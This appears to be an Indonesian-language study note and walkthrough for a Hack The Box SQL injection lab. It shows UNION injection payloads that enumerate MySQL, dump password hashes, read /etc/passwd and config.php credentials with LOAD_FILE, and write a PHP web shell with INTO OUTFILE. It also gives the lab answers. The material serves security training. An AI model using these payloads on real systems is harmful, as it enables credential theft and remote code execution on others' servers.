## Database Enumeration
Pada catatan sebelum, kita telah melihat perbedaan query SQL dan bagaimana menggunakan Sql injection. InsyaAllah pada catatan ini kita akan belajar bagaimana untuk mendapatkan data menggunakan SQL injection.

### MySql Fingerprinting
Sebelum menggeledah database, biasanya kita harus mengidentifikasi terlebih dahulu untuk mengidentifikasi DMBS tipe apa yang kita hadapi. Karena, setiap DBMS memliki query yang berbeda-beda dan mengetahuinya akan membantu kita untuk mengetahui query mana yang harus kita gunakan.

Untuk tebakan awal, jika webserver yang kita lihat pada HTTP responsenya Apache atau Nginx maka bisa kita duga webserver tersebut berjalan di Linux dan kemungkinan besar menggunakan DBMS seperti MySQL. Samajuga dengan Micrsoft DBMS, jika webserver menggunakan ISS, makan kemungkinan besar menggunakan MSSQl. Akan tetapi itu adalah tebakan yang bisa jadi salah, karena juga banyak database lain yang digunakan pada OS atau web server. Jadi kita harus mengujinya menggunakan test fingterprint. Ada berbagaimacam query yang dapa kita gunakan untuk menguji fingerprint dari DBMS mana yang kita hadapi.

Pada catatan ini kita hanya menguji apakah DBMS yang kita hadapi MySql atau tidak ?. Dibawah ini adalah payload untuk mengujinya.

| Payload | When to Use | Expected Output |	Wrong Output |
| :------ | :---------- | :-------------- | :----------- |
| `#!sql SELECT @@version` | When we have full query output | MySQL Version 'i.e. 10.3.22-MariaDB-1ubuntu1' | In MSSQL it returns MSSQL version. Error with other DBMS.|
| `#!sql SELECT POW(1,1)` |	When we only have numeric output | 1 | Error with other DBMS |
| `#!sql SELECT SLEEP(5)` | Blind/No Output | 	Delays page response for 5 seconds and returns 0. | Will not delay response with other DBMS |


### Infomration schema
Kita bisa menggunakan schema `information_schema` untuk mengetahui berbagai macam informasi dari sebuah database, termasuk daftar databases, daftar tabel pada schema, daftar kolom pada sebuah tabel, constraint dari sebuah table, serta index pada tabel. pada quiz dibawah ini kita akan memanfaatkan information_schema untuk menemukan flag.

### Quiz 1
!!! quote "question"
     What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database? 

    > Janga lupa untuk menggunakan `Openvpn` dan spawn target di HTB

    ??? question "Jawaban"

        Nili masukan pada web ini dapat di inject menggunakan union injection.
        
        `Pertama`
        :   Fingerprint, pada tahap ini kita akan menguji sebuah payload untuk mengetahui tipe dari DBMS, saya menggunakan 

            ```sql
            a' UNION SELECT 1,2,@@version, version_compile_os -- -
            ```

            

        `Kedua`
        :   Kita  telah mengetahui DBMS yang kita hadapi, selanjutnya kita gali informasi lainnya menggunakan fungsi `#!sql databases` untuk mengetahui nama databases yang digunakan pada aplikasi ini.

            ```sql
            a' UNION SELECT 1,2,databases(),4 -- -
            ```

            

            Nama databases pada apss tersebut adalah **ilfreight**.

        `Ketiga`
        :   Oke, kita sudah selangkah lebih dalam. Selanjutnya kita gali lagi, tabel-tabel yang ada pada schema **ilfreight**. Kita dapat memanfaatkan tabel yang ada pada information schema. InsyaAllah kita akan manfaatkan tabel `informaation_schema.tables`. Tabel `informaation_schema.tables` memliki kolom `TABLE_NAME` untuk melihat nama tabel yang tersedia dan `TABLE_SCHEMA` untuk memfilter schema tertentu saja.

            ```sql
            a' UNION SELECT 1, table_name, table_schema, 4 from information_schema.tables  WHERE TABLE_SCHEMA="ilfreight" -- -
            ```
            

            Schema **ilfreight** memliki tabel;
            
            *   portss
            *   products
            *   users

        `Keempat`
        :   Kita akan fokus ke tabel `users`, namun kita harus mengetaui nama kolom dari tabel `users` agar bisa disesuaikan dengan jumlahs select kolom pada union injection. Untuk menggali informasi tersebut, lagi-lagi kita manfaatkan tabel pada schema `information_schema`, table yang kita gunakan untuk mengetahui informasi tabel adalah `information_schema.columns`.

            Untuk filter kita menggunakan kolom `information_schema.table_schema` & `information_schema.table_name`.

            ```sql
            a' UNION SELECT 1, COLUMN_NAME,DATA_TYPE,TABLE_SCHEMA FROM information_schema.columns WHERE TABLE_SCHEMA="ilfreight" AND TABLE_NAME = "users" -- -
            ```

            

            Kita dapat informasi table name dan data type;

            | table name | data type |
            | :--------- | :-------- |
            | id | int |
            | username | varchar |
            | password | varchar |

        `Kelima`
        :   MasyAllah, kita sudah mengetahui DBMS, versi, nama database, nama tabel dan nama kolom. Menggunakan union injection kita dapat mengambil id, username dan password dari data yang sudah kita gali.

            ```sql
            a' UNION SELECT 1, id, username, password from users -- -
            ```

            

            Alhamdulillah we got answer from this question.
            **9da2c9bcdf39d8610954e0e11ea8f45f**


## Reading files
Selain kita dapat mengumpulkan data dari beberap tabel dan database didalam DBMS, dengan Sql Injection kita juga dapat melaluka operasi seperit membaca file atau menulis file didalam sever dan bahkan dapat menjurus ke [Remote Code Execution](https://www.checkpoint.com/cyber-hub/cyber-security/what-is-remote-code-execution-rce/)


### Privileges
Membaca data lebih umum terjadi dari pada menulus data (writting data), yang dibuat sangat ketat aksesnya karena akses tersebut dapat membuat peluang untuk mengeksploitasi sistem. Contohnya MySQL, DB user harus memliki akses `FILE` untuk me-load file yang berisikan data kedalam sebuah tabel dan dump data dari tabel tersebut serta membaca sebuah file.

Untuk itu, sebelum kita memanfaatkan reading serta writting file ke server kita harus mengetahui hak akses user pada web tersebut, apakah memliki akses read dan atau write file.

### DB User
Sebelum kita harus mendapatkan informasi tentang user yang digunakan. Berbincang tentang hak ases, hak akses Database Administrator tidak dibutuhkan, karena hanya sebatas read saja dan pembatasn hak akses ini juga memliki alasan keamanan. DBA sudah dipastikan memliki akses write and read. setelah kita mendapatkan informasi user, kita dapat mengetahu hak ases yang dimiliki oleh user tersebut.

Untuk mengetahui user bisa menggunakan fungsi `user()`, `current_user()` serta jika ingin melihat seluruh user pada MySql anda dapat memanfaatkan tabel `user` pada schema `mysql` untuk mengatur privilage atau hanya sebatas mendapatkan informasi.


```sql

SELECT USER();
SELECT CURRENT_USER();
SELECT User FROM mysql.user;
```

### User Privileges
Memanfaatkan table pada mysql.user kita dapat melihat privilage dari setiap user

```sql
select User, File_priv, Super_priv from mysql.user;
+------------------+-----------+------------+
| User             | File_priv | Super_priv |
+------------------+-----------+------------+
| debian-sys-maint | Y         | Y          |
| farras           | Y         | Y          |
| mysql.infoschema | N         | N          |
| mysql.session    | N         | Y          |
| mysql.sys        | N         | N          |
| root             | Y         | Y          |
+------------------+-----------+------------+
6 rows in set (0,00 sec)
```

Query diatas menghasilan nilai **Y** dan **N**, Y artinya pada Super_priv User `farras` memliki akses super privilege. Anda juga dapat dump data untuk mengetahui status hak ases pada table `user_privileges` schema `information_schema`.

```sql
select * from information_schema.USER_PRIVILEGES WHERE grantee = "'farras'@'localhost'";
+----------------------+---------------+------------------------------+--------------+
| GRANTEE              | TABLE_CATALOG | PRIVILEGE_TYPE               | IS_GRANTABLE |
+----------------------+---------------+------------------------------+--------------+
| 'farras'@'localhost' | def           | SELECT                       | NO           |
| 'farras'@'localhost' | def           | INSERT                       | NO           |
| 'farras'@'localhost' | def           | UPDATE                       | NO           |
| 'farras'@'localhost' | def           | DELETE                       | NO           |
| 'farras'@'localhost' | def           | CREATE                       | NO           |
| 'farras'@'localhost' | def           | DROP                         | NO           |
| 'farras'@'localhost' | def           | FILE                         | NO           | -- (1)!
| .................................................................................. |
+----------------------+---------------+------------------------------+--------------+
64 rows in set (0,00 sec)
```

1.  `FILE` privilege type ini menandakan user memliki akses read and write file.


### LOAD FILE
Jika user memliki akses tipe FILE, maka user tersebut dapat menggunakan fungsi `LOAD_FILE()`. Fungsi ini berguna untuk membaca file dan membutuhkan satu buat argumen yang diisi dengan nama file beserta alamat lengkap file tersebut.

```sql
SELECT LOAD_FILE ('SELECT LOAD_FILE("/etc/passwd"); ')

oot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```

!!! info
    Jika hasilnya Null, dan anda yakin user memliki hak akses `FILE` maka bisa jadi `secure_file_priv` terpasang, atau file yang dibaca melebih dari `max_allowed_packet`. More detail read [here](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_load-file).

    Jika ternyata karena `secre_file_priv` terpasang, maka baca disini untuk menonaktifkannya atau merubah nilai variabel tersebut, [settingup secure_file_priv](../../DBMS/Catatan MySql/04. Importing and Exporting Data.md#settingup-secure_file_priv)


### Quiz 2
!!! quote "question"
    We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password. 

    {==**THINK OUTSIDE OF THE BOX**==}
    
    > Janga lupa untuk menggunakan `Openvpn` dan spawn target di HTB

    Hint : 

    1.  Check user
    2.  Check user privilege
    3.  More inspect the code using payload, sql injection.


    ??? question "Jawaban"


        `pertama`
        :   Kita bisa menggunakan fungsi `USER()` dan `CURRENT_USER()`

            ```sql
            a' UNION SELECT 1,USER(), CURRENT_USER(),4; -- -
            ```

            

            Oke, kita telah mendapatkan informasi user pada apps tersebut.


        `kedua`
        :   Selanjutnya, kita harus mengecheck dahulu privilege dari user tersebut. 
            ```sql
            a' UNION SELECT 1, User, File_priv, Super_priv FROM mysql.user; -- -
            
            # Atau
            a' UNION SELECT 1, GRANTEE, PRIVILEGE_TYPE, 4 FROM information_schema.USER_PRIVILEGES WHERE PRIVILEGE_TYPE = "FILE"; -- - 

            ```

            

            Oke,ternyata user tersebut memlik hak akses untuk membaca file

            !!! info
                Ingat, pengumpulan informasi yang banyak sebelum melakukan serangan akan lebih sering menghasilkan dari pada langusng mengirim payload atau eksploitasi tanpa mendapatkan informasi yang cukup sebelumnya.Maka dari itu pada kasus ini, kita tidak langsung mencoba membaca file memalui sql injection sebelum mengetahui hak ases user tersebut. karena kita dapat mengehamat waktu dan tenaga karena bertanya-tanya, KENAPA GK BISA BACA FILE. eh ternyata memang user gk ada akses untuk membaca atau me-read file.


        `ketiga`
        :   Think outside of the box, sebelumnya saat fase [fingreprinting](#mysql-fingerprinting), kita bisa mengecheck OS dan dari OS tersebut kita bisa tebak, katakan linux, bisa jadi webserver menggunakan apache atau Nginx. Dari url target `http://167.71.129.121:31477/search.php?` halam web tersebut diletakan pada root folder. Maka dari itu coba kita READ_FILE search.php


            ```sql
            a' UNION SELECT 1,2, LOAD_FILE('/var/www/html/search.php'), 4; -- -
            ```

            

            Wopas, ternyata file tersebut terload sebagai HTML. Selanjutnya kita coba inspect halam tersebut


        `keempat`
        :   Untuk inspect source code tekan ++ctrl++ + `U`. Kita dapat lihat `search.php` meng `#!php include()` file dengan nama config.php. Sekarang mari kita coba baca file tersebut.

        

        `kelima`
        :   Mari sekarang kita LOAD_FILE config.pphp

            ```sql
            a' UNION SELECT 1,2, LOAD_FILE('/var/www/html/config.php'), 4; -- -
            ```

            

            Kita mendapatkan flag, di parameter password database, jawabannya adalah **'dB_pAssw0rd_iS_flag!'**.


## Writing files
Anda juga werite file dalam server menggunakan `INTO OUTFILE`. Dan bahanya, anda bisa membuat sebuah code, yang mana menerima parameter melaluo HTTP, dan mengeksekusi nilai tersebut didalam server. Kita akan memanfaatkan fungsi [`#!php system()`] (https://www.php.net/manual/en/function.system.php),

```sql
' UNION SELECT "","","","" '<?php system($_REQUEST[0]);?>' INTO OUTFILE '/var/www/html/explt.php'; -- -
```

Dan selanjutnya kita bisa mengisi parameter `0` dengan perintah yang nanti akan dieksekusi oleh PHP sebagai command pada host server tersebut.

